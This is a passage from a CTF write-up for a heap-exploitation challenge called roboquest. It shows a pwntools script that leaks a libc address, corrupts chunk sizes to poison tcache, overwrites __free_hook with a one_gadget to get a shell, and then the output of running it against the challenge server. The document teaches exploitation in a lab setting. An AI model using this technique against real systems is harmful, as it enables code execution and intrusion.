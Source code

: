 ```
remove_question(2)
create_question(0x48, b'e' * 0x1f)
show_question(1)
print(target.recvuntil(b'e' * 27 + b'\n'))
libc_leak_bytes = target.recv(6)
libc_leak = u64(libc_leak_bytes + b'\x00' * 2)
print(hex(libc_leak))
system_libc = libc_leak - 0x39c750
print(hex(system_libc))
libc_base = system_libc - libc.symbols['system']
onegadget = libc_base + 0x4f432 #0x4f3d5
print(hex(onegadget))
free_hook = libc_base + libc.symbols['__free_hook']
print(hex(free_hook))

#I found that we had a tendency to error out if I leave the libc leaking chunk damaged, so I modify it back to normal.

modify_question(1, b'z' * 0x18 + p64(0x61) + p64(libc_leak)[:6])

create_question(0x58, b'0' * 0x58)

create_question(0x38, b'1' * 0x38) #ID is 3
create_question(0x38, b'2' * 0x38) #ID is 4
create_question(0x38, b'3' * 0x38) #ID is 5
create_question(0x38, b'4' * 0x38) #ID is 6
show_question(3)
modify_question(3, b'z' * 0x38 + b'\x51')
remove_question(4)
remove_question(6)
remove_question(5)
create_question(0x48, b'x' * 0x38 + p64(0x41) + p64(free_hook))
create_question(0x38, b'A' * 0x38)
#This will overwrite the free hook with the onegadget.
create_question(0x38, p64(onegadget))

#This will trigger the free hook and the onegadget and pop a shell.
remove_question(0)

target.interactive()
```
And here is what that looks like when run against the remote server:
```
knittingirl@piglet:~/CTF/htb_uni_finals22/pwn_roboquest/challenge$ python3 roboquest_payload.py 
[+] Opening connection to 159.65.81.40 on port 30835: Done
[*] '/home/knittingirl/CTF/htb_uni_finals22/pwn_roboquest/challenge/.glibc/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'\x1b[1;31m\n\nData collector Robo-quest is ready to be initialized with questions.\n\n\n( ( o ) )\n    |\n+-------+\n|  O O  |\n|  ---  |\n+-------+\n\x1b[0m\n\x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's size:"
b' [*] Insert question here:'
b' \x1b[1;36m\n[+] Question has been created!\n\x1b[0m\n\x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's size:"
b' [*] Insert question here:'
b' \x1b[1;36m\n[+] Question has been created!\n\x1b[0m\n\x1b[1;31m\n1. Create\n2. Show\n3. Modify\n4. Remove'
b"\n> \x1b[0m\n[*] Question's size:"
```